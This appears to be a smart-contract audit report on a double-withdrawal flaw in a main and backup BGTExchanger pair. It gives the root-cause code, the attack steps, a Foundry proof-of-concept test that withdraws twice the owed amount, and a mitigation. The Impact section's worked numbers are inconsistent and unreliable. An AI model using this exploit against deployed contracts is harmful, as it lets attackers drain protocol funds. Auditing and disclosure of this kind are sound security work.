 Cheesy Garnet Otter

High

# Unsynchronized Withdrawals Allow Double Spending in BGTExchanger Contracts

### Summary

**Lack of synchronization between main and backup exchanger will cause a double withdrawal vulnerability for the BGTExchanger contract as users will withdraw the same owed tokens from both contracts independently.**

### Root Cause

In `[BGTExchanger.sol:72-87](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L72-L87)` the `withdraw` function updates only the local contract's `withdrawn` state while the `getOwed` function aggregates owed amounts from both contracts:

```solidity
function getOwed(address caller) public view returns (uint256 _owed) {
    _owed = owed[caller];
    if (address(backupEx) != address(0)) {
        _owed += backupEx.getOwed(caller);
    }
    _owed -= withdrawn[caller];
}

function withdraw(address recipient, uint256 bgtAmount) external {
    uint256 _owed = getOwed(msg.sender);
    if (bgtAmount == 0) return;
    if (_owed < bgtAmount) revert InsufficientOwed();
    withdrawn[msg.sender] += bgtAmount;
    TransferHelper.safeTransfer(bgtToken, recipient, bgtAmount);
}
```

### Internal Pre-conditions

1. Owner needs to call `setBackup()` to set a valid backup exchanger contract.
2. User needs to be added as an exchanger in both main and backup contracts via `addExchanger()`.
3. Both main and backup contracts need to have BGT tokens funded via the `fund()` function.
4. User needs to have exchanged tokens in either or both contracts to have an owed balance.
5. Main contract's `getOwed()` function successfully returns the combined owed amount from both contracts.

### External Pre-conditions

None

### Attack Path

1. **User calls `exchange()` on the main contract to have tokens owed to them.**
2. **User calls `exchange()` on the backup contract to have additional tokens owed to them.**
3. **User calls `withdraw()` on the main contract to withdraw the combined owed amount (from both main and backup).**
4. **User calls `withdraw()` directly on the backup contract to withdraw the same amount owed by the backup again.**
5. **The user has now received more BGT tokens than they should have been entitled to.**


### Impact

**The protocol suffers a loss equal to the total amount owed by the backup contract. The attacker gains this amount in BGT tokens by double withdrawing.**

For instance, if a user is owed 100 BGT from the main contract and 100 BGT from the backup contract, they can withdraw 200 BGT from the main contract and then another 100 BGT from the backup contract, resulting in a 100 BGT loss for the protocol.


### PoC

The provided test case confirms the issue: add it the `BGTExchanger.t.sol`

```solidity
function testDoubleSpendingVulnerability() public {
    // Create owner account
    address owner = makeAddr("owner");
    
    // Deploy mainEx and backupEx as owner
    vm.startPrank(owner);
    BGTExchanger mainEx = new BGTExchanger(address(ibgt));
    BGTExchanger backupEx = new BGTExchanger(address(ibgt));
    vm.stopPrank();
    
    // Set backupEx as the backup of mainEx (as owner)
    vm.prank(owner);
    mainEx.setBackup(address(backupEx));
    
    // Add alice as exchanger in both (as owner)
    vm.prank(owner);
    mainEx.addExchanger(alice);
    vm.prank(owner);
    backupEx.addExchanger(alice);
    
    // Set rates for usdc (as owner)
    uint256 rate = (1e12 << 128); // 1e6 usdc => 1e18 ibgt
    vm.prank(owner);
    mainEx.setRate(address(usdc), rate);
    vm.prank(owner);
    backupEx.setRate(address(usdc), rate);
    
    // Fund both contracts with BGT
    deal(address(ibgt), address(this), 20e18);
    ibgt.approve(address(mainEx), 10e18);
    mainEx.fund(10e18);
    ibgt.approve(address(backupEx), 10e18);
    backupEx.fund(10e18);
    
    // Have alice exchange on backupEx for 10e6 usdc
    vm.startPrank(alice);
    deal(address(usdc), alice, 10e6);
    usdc.approve(address(backupEx), 10e6);
    (uint256 bgtAmount, uint256 spendAmount) = backupEx.exchange(
        address(usdc),
        10e6
    );
    assertEq(bgtAmount, 10e18, "bgtAmount backupEx");
    assertEq(spendAmount, 10e6, "spendAmount backupEx");
    vm.stopPrank();
    
    // VERIFY: The amount owed to Alice is properly tracked
    assertEq(mainEx.getOwed(alice), 10e18, "getOwed mainEx reflects backupEx exchange");
    assertEq(backupEx.getOwed(alice), 10e18, "getOwed backupEx");
    
    // STEP 1: Alice withdraws from the mainEx
    vm.startPrank(alice);
    mainEx.withdraw(alice, 10e18);
    assertEq(ibgt.balanceOf(alice), 10e18, "alice ibgt after first withdraw");
    assertEq(mainEx.withdrawn(alice), 10e18, "withdrawn mainEx");
    
    // VERIFY: After withdrawing from mainEx, the getOwed should be 0 since Alice got everything
    assertEq(mainEx.getOwed(alice), 0, "getOwed mainEx after withdrawal");
    
    // VULNERABILITY: But she can still withdraw from backupEx directly!
    // mainEx.withdrawn is updated but backupEx.withdrawn is not synced
    backupEx.withdraw(alice, 10e18);
    
    // RESULT: Alice was able to withdraw 20e18 total when she was only owed 10e18
    assertEq(ibgt.balanceOf(alice), 20e18, "alice ibgt after both withdraws (DOUBLE SPEND!)");
    assertEq(backupEx.withdrawn(alice), 10e18, "withdrawn backupEx");
    
    vm.stopPrank();
    
    // This test passing confirms the double spending vulnerability exists
    // The vulnerability allows withdrawing the same funds from both the main and backup exchangers
    // The root cause: Each exchanger tracks its own 'withdrawn' amount separately
    // without synchronizing with the other exchanger
}
```

### Mitigation

Implement a system where withdrawals are tracked globally across both contracts (main and backup). This ensures that once a user withdraws their owed tokens, they cannot withdraw the same amount again from another contract.
